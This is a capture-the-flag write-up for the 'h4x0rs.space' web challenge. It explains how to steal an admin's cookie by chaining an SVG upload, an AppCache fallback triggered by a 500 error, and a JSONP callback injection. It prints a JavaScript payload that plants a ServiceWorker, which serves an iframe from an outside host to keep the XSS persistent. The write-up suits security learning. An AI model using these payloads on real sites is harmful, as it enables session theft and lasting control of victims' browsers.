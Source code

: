 # h4x0rs.space
## https://h4x0rs.space/blog/

![index](index.png)

```
I've made a blog platform let you write your secret. 
Nobody can know it since I enabled all of modern web security mechanism, is it cool, huh?

Get document. cookie of the admin.

h4x0rs.space

Hint: Every bug you found has a reason, and you may want to check some uncommon HTML5 features Also notice that, the admin is using real browser, since I found out Headless is not much real-world. GL

Hint 2: W3C defines everything, but sometimes browser developers decided to implement in their way, get the same browser to admin and test everything on it.

Hint 3: Can you make "500 Internal Server Error" from a post /blog.php/{id} ? Make it fall, the good will come. And btw, you can solve without any automatic tool. Connect all the dots.

Last Hint: CACHE
```

Since the `document.cookie` of admin is just the half, at the end you have to figure out where is the secret blog id.

Run [solve.py](solve.py) and report the result id to the admin.

Notice: Admin opens incognito window each time (appcache/sw/ will be clean) opening report blog ID, thus we have to setup delay iframe loading to buy time for appcache setup, and XSS him in one-shot.

## Bug
You should read this [writeup](https://gist.github.com/masatokinugawa/b55a890c4b051cc6575b010e8c835803)
### We can upload .SVG file
By uploading .SVG file, we can easily execute javascript command, but the admin won't take a look at any links other than `/blog.php/...valid id...`.

### XSS in embed.php
We can perform XSS attack on `embed.php`, but we can not trigger it from the path `/blog/blog.php/...id...`. Get used to AppCache, then you will know that we can define `FALLBACK` in appcache manifest, and trigger 500 error to leads the browser to our `.svg` evil file.

### XSSI at `pad.php?callback=....`

We can easily find out there is XSSi at `pad.php`, but `callback` parameter is filterd and can not be longer than 8 characters. 

To bypass it, create a blog post with title like:
```javascript
`; ... javascript ... //
```

In [solve.py](solve.py), I have been using as the following:
```javascript
`({"data":"QQ==","id":"[blog_post_id]","title":"`;onfetch=(e)=>{e.respondWith(new Response('<iframe src=//l4w.io>',{headers:{'Content-Type':'text/html'}}))}//","time":"2018-04-03 12:32:00","image_type":""});
```

To setup ServiceWorker later then get persistent XSS (Imagine that, from now on, victim always get into your evil page, then you can silently control the pages).


## Root cause

Chrome can treat .jpg as .appcache manifest (but with restricted scope). Luckily, `embed.php` is in the scope.


## Flag
### document.cookie
OK! You got me... This is your reward: "flag{m0ar_featureS_" Wait, I wonder if you could hack my server. Okay, shall we play a game? I am going to check my secret blog post where you can find the rest of flag in next 5 seconds. If you know where I hide it, you win! Good luck. For briefly, I will open a new tab in my browser then go to my https://h4x0rs.space/blog.php/*secret_id* . You have to find where is it. 1...2...3...4..5... (Contact me @l4wio on IRC if you have a question)

### secret blog id
https://h4x0rs.space/blog/blog.php/15e8f6b2408ea136dd2e62dec47ceabc3b0ec9d1d99eebd740853ae23b6db375

## Other writeups
https://gist.github.com/masatokinugawa/b55a890c4b051cc6575b010e8c835803
